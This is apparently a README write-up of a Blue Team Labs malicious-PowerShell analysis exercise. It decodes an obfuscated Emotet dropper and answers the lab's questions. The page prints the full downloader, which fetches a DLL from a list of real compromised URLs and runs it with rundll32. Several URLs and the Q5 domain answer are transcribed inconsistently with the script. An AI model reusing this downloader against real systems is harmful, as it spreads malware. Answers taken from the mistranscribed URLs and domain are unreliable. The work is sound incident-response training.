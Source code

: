 <h1>Blue Team Labs Online - Malicious PowerShell Analysis lab</h1>

<h2>Scenario</h2>
Recently the networks of a large company named GothamLegend were compromised after an employee opened a phishing email containing malware. The damage caused was critical and resulted in business-wide disruption. GothamLegend had to reach out to a third-party incident response team to assist with the investigation. You are a member of the IR team - all you have is an encoded Powershell script. Can you decode it and identify what malware is responsible for this attack?
<br />


<h2>Utilities Used</h2>

- <b>Cyberchef</b> 

<h2>Lab walk-through:</h2>

<!-- <p align="center"> -->
Step 1: <br/> Downloading the appropriate files. In this case, we are privided with the encoded powershell script. <br/>

Step 2: <br /> Research. I came across <a href="https://www.reddit.com/r/cybersecurity/comments/12w808u/easiest_way_to_deobfuscate_heavily_obfuscated/">this</a> Reddit post in which the poster mentions that they usually use the following recipe in Cyberchef: <br /> 
  - From Base64 <br />
  - Decode text <br />
  - Beautify <br />
  - Remove null bytes <br />
  - Gunzip <br />

Using this as a baseline, I went with the following recipe for this particular porblem: <br />
  - From Base64 <br />
  - Remove null bytes <br />
  - Render Markdown <br />

The screenshot below shoes the output obtained from Cyberchef <br />

<img src="https://i.imgur.com/CSLmwwu.png" height="80%" width="80%" alt="Output of recipe in Cyberchef"/> <br />
 Here is the script cleaned up:
 ```
Set-Item ([Type]("{0}{1}{2}{4}{3}" -f 'System','eM.','io.DI','ORY','rect'));

Set-Item ('vaR'+'IabLE'+':mBu') ([Type]("{6}{8}{0}{3}{4}{5}{2}{7}{1}" -f 'SteM','Ger','Ma','.n','et.seRVIcepOi','nt','s','NA','Y'));

$ErrorActionPreference = ('Silently'+'Continue');

$Cvmmq4o = $Q26L +   + $E16H;
$J16J = ('N'+('_0'+'P'));

(Dir Variable:Mku).Value::"CreateDirectory"($HOME + ('{0}Db_bh30Yf5be5g{0}' -f [char]92));

$C39Y = ('U68S');

([Variable]("m"+"bu") -Valueon)::"Securityprotocol" = ('Tls12');

$F35I = ('I4_B');
$Swrp6tc = ('A69S');
$X27H = ('C33O');
$Imd1yck = $HOME + (('UOHDb_'+'b'+'h30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');

$K47V = ('R49G');
$B9fhbyv = ('anw[3s://admink.com/wp-admin/L/@]anw[3s://mikegeerinck.com/c/YYsa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/S/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-content/de/@]anw[3://www.stmarouns.edu.au/paypal/b8G/@]anw[3s://www.mcdevelop.net/content/6F2gd/').Replace((']anw[3'),([array]('sd','sw'),('http'),'3d')[1]).Split($C83R + $Cvmmq4o + $F10Q);

$Q52M = ('P05K');

foreach ($Bm5pw6z in $B9fhbyv){
    try {
        (&('New'+'-Object') System.Net.WebClient)."DownloadFile"($Bm5pw6z, $Imd1yck);
        $Z10L = ('A92Q');
        If ((&('Get-Item') $Imd1yck)."length" -ge 35698) {
            &('rundll32') $Imd1yck,(('Control_RunDLL')+'.'+"TOSTRING")();
            $R65I = ('Z09B');
            break;
            $K7_H = ('F12U');
        }
    } catch {}
}

$W54I = ('V95O');
````
<br />
  
<b>Question 1:</b>  <br/> 
<b>What security protocol is being used for the communication with a malicious domain?</b> <br />
  Upon looking over the output from Cyberchef, I noticed a line <i>"sEcuRITYproTocol" = ('T'+('ls'+'12'))</i>. The security protocol being used for communication with a malicious domain is <b>TLS 12</b>.
   <br />
   
<b>Question 2:</b>  <br/> 
<b>What directory does the obfuscated PowerShell create? (Starting from \HOME\)</b> <br />
Further review of the output lead me to a line <i>"cREAtedIRECTORy"($HOME + (('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') -F [chAR]92))</i>. The expression ('{'+'0}Db_bh'+'30'+'{0}'+'Yf'+'5be5g{0}') when deconcatenated translates to {0}Bd_bh30{0}Yf5be5g{0}. Upon some further research, I learned that -F is a format operator that can format a string with placeholders. <br />

  <img src="https://i.imgur.com/Sj3uUIU.png" height="80%" width="80%" alt="Syntax for the format operator -F"/> <br />
  
  and that char[92] translates to backslash in ASCII <br />
  
   <img src="https://i.imgur.com/d1TpuGV.png" height="80%" width="80%" alt="ASCII table"/> <br />
   
 The powershell creates the directory <b> \HOME\Db_bh30\Yf5be5g\ </b>

<b>Question 3:</b>  <br/> 
<b>What file is being downloaded (full name)?</b> <br />
Looking at the script: <br />
- $Imd1yck = HOME\Dubh30\Yf5be5g\A69S.dll <br />
    ```
    -> $Imd1yck = $HOME + (('UOHDb_'+'b'+'h30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');
    -> $Imd1yck= $HOME + ('UOHDb_bh30UOHYf5be5gUOH').Replace('UOH',[String][char]92)) + $Swrp6tc + ('.dll');
    -> replace every instance of UOH with backslash = Db_bh30\Yf5be5g\
    -> in the script we are given $Swrp6tc = A69S.
    -> concat what we have left and $Imd1yck = \HOME\Db_bh30\Yf5be5g\A69S.dll
    ```
- $B9fhbyv = array of URLs
    ```
    -> $B9fhbyv = ('anw[3s://admink.com/wp-admin/L/@]anw[3s://mikegeerinck.com/c/YYsa/@]anw[3://freelancerwebdesignerhyderabad.com/cgi-bin/S/@]anw[3://etdog.com/wp-content/nu/@]anw[3s://www.hintup.com.br/wp-  content/de/@]anw[3://www.stmarouns.edu.au/paypal/b8G/@]anw[3s://www.mcdevelop.net/content/6F2gd/').Replace((']anw[3'),([array]('sd','sw'),('http'),'3d')[1]).Split($C83R + $Cvmmq4o + $F10Q);
    -> the .Replace function calls for any instance of ]anw[3 to be replaced with [array]('sd','sw'),('http'),'3d')[1]
        - [array]('sd','sw'),('http'),'3d')[1] is creating a an array with the values sd, sw, and http. '3d')[1] is saying to select the second element of the array, which is http
        - I assumed that the split function called to split the string at any instance of @[ since we are not provided with the valules of the variables ($C83R + $Cvmmq4o + $F10Q).
    -> we get an array of the following URLs:
        https://admink.com/wp-admin/L/
        https://mikegerinck.com/ccYYsa/
        https://freelancerwebdesignerhabaderabad.com/cgi-bin/S/
        https://etdog.com/wp-content/nu/
        https://www.hintup.com.br/wp-content/de/
        https://www.stmarouns.nsw.edu.au/paypal/b8G/
        https://wm.mcdevelop.net/content/6F2gd/
    -> Lets look at the foreach loop
            
            foreach ($Bm5pw6z in $B9fhbyv){
            try {
                ((New-Object) System.Net.WebClient)."DownloadFile"($Bm5pw6z, $Imd1yck);
           
    -> for each URL in the array of URLs, download a file from that URL specified by that URL +  $Imd1yck which is \HOME\Db_bh30\Yf5be5g\A69S.dll.
    ```
The file being downloaded is <b>A69S.dll</b> <br />
    
<b>Question 4:</b>  <br/> 
<b>What is used to execute the downloaded file?</b>
```
        If ((&('Get-Item') $Imd1yck)."length" -ge 35698) {
            &('rundll32') $Imd1yck,(('Control_RunDLL')+'.'+"TOSTRING")();
            $R65I = ('Z09B');
            break;
            $K7_H = ('F12U');
        }
  -> if the length of the file downlaoded from the url with the path \HOME\Db_bh30\Yf5be5g\A69S.dll is greater than 35698 bytes then run the dll file donwloaded as an executable (rundll32).
```
<b> rundll32 </b> is being used to execute the downloaded file


<b>Question 5:</b>  <br/> 
<b> What is the domain name of the URI ending in ‘/6F2gd/’ </b> <br />
The URI as a whole is https://wm.mcdevelop.net/content/6F2gd/ and the domain name is <b>wm.mcdevelop.net</b> <br />

<b>Question 6:</b>  <br/> 
<b>Based on the analysis of the obfuscated code, what is the name of the malware?</b>
I searched the file A69S.dll on Malware Bazaar and got a hit for the malware known as <b>Emotet</b>. <br />
<img src="https://i.imgur.com/a584Ymr.png" height="80%" width="80%" alt="information about the malware Emotet on Malware Bazaar"/>
